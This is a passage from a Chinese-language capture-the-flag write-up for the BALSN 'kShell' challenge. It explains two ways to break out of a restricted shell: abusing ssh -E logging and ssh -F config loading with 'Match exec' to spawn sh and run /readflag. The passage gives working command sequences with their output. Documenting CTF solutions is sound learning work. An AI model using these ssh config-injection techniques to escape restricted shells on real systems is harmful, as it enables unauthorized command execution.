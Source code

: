       netstat
      pwd
    ```
* 當有error出現的時候會有`Meow! An error occurred!`的字樣出現，一開始會以為有甚麼樣的作用，但結果完全沒用，顆顆
* 基本上這一題也是看itiscaleb才知道怎麼解[^kshell-wp]
## Exploit
兩種解法都很相似，但我只知道大概，都是利用ssh -F接一個config file，然後用Match exec達到RCE，但Match exec是啥鬼啊，找了很多資料都沒有這東西應該說exec會去執行後面帶的command然後跳出目前的shell，啊Match呢?????
:::info
23/10/16更新:
Match是ssh config裡面的一個語法，底下也已經有更完整的想法
:::

* 解法一
    ```bash
    /home/kShell # python3 /kShell.py
    Welcome to
     _    ___  _          _  _
    | |__/ __|| |_   ___ | || |
    | / /\__ \| ' \ / -_)| || |
    |_\_\|___/|_||_|\___||_||_|
    
    kshell~$ ssh -E 'Match exec "sh 0<&2 1>&2" #aaa' x
    kshell~$ ssh -F 'Match exec "sh 0<&2 1>&2" #aaa' -E aaa x
    kshell~$ ssh -F aaa x
    /home/kShell # /readflag
    BALSN{h0w_d1d_u_g3t_RCE_on_my_kSSHell??}
    
    # Special thanks to Orange's oShell challenge!
    ```
    提供以上解法的是DC裡面的一個`@lebrOnli`大大
    1. 它的意思是先利用`ssh -E`創造一個log file，名稱叫做`Match exec "sh 0<&2 1>&2" #aaa`，而後面的`x`就當作一般連線的host name，但反正一定是錯的
        ```bash
        $ ssh -E 'Match exec "sh 0<&2 1>&2" #aaa' x
        $ ll
        -rwxrwxrwx 1 sbk6401 sbk6401       62 Oct 16 00:01 'Match exec "sh 0<&2 1>&2" #aaa'
        $ cat Match\ exec\ \"sh\ 0\<\&2\ 1\>\&2\"\ \#aaa
        ssh: Could not resolve hostname x: Name or service not known
        ```
    2. 再利用這個log file當作config file丟給`ssh -F`，當然它會噴錯，因為裡面根本不是一般的config info
        ```bash
        $ ssh -F 'Match exec "sh 0<&2 1>&2" #aaa' -E aaa x
        $ cat aaa
        Match exec "sh 0<&2 1>&2" #aaa: line 1: Bad configuration option: ssh:
        Match exec "sh 0<&2 1>&2" #aaa: terminating, 1 bad configuration options
        ```
        此時可以看到檔案`aaa`的內容已經因為log append變成Match exec "sh 0<&2 1>&2"，而#字號後面就當作一般的comment
    3. 此時我們已經構建好config file了，則我們可以把aaa當作conig丟給ssh -F，它就會去執行裡面的內容，而實際上真正讓我們escape是因為exec，它會執行後面的東西完了以後就跳出目前的shell，然後就可以執行/readflag
* 解法二
    ```bash
    kshell~$ ssh localhost -F /proc/self/fd/1
    Match exec "/readflag>&2"
    BALSN{h0w_d1d_u_g3t_RCE_on_my_kSSHell??}
    